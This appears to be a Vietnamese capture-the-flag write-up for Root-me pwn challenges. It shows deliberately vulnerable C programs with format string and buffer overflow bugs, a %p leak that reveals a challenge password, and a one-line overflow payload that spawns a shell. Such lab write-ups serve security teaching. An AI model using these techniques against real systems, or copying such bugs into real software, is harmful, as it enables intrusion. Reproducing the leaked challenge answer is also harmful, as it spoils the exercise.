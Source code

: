 # Root me (pwn)

## ELF x86 - Format string bug basic 1

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Bài này là format string nên bug sẽ nằm ở hàm printf ta test thử nhập vào %p xem chương trình sẽ in ra tham số như thế nào

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Decode output từ hex ta sẽ được password

&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

9apD()6dmapE

## ELF x86 - Format string bug basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

## ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Easy buffer overflow bug sẽ nằm ở  [fgets](http://www.opengroup.org/onlinepubs/009695399/functions/fgets.html)(buf,45,stdin); vì chương trình chỉ cho nhập 40 ký tự nhưng ở đây lại cho 45 nên ta sẽ ghi đè lên nó để đọc shell&#x20;

payload : ./ch13 | (python -c  'print "A" \* 40  + "\xef\xbe\xad\xde"'; cat)

Dùng cat để giữ shell


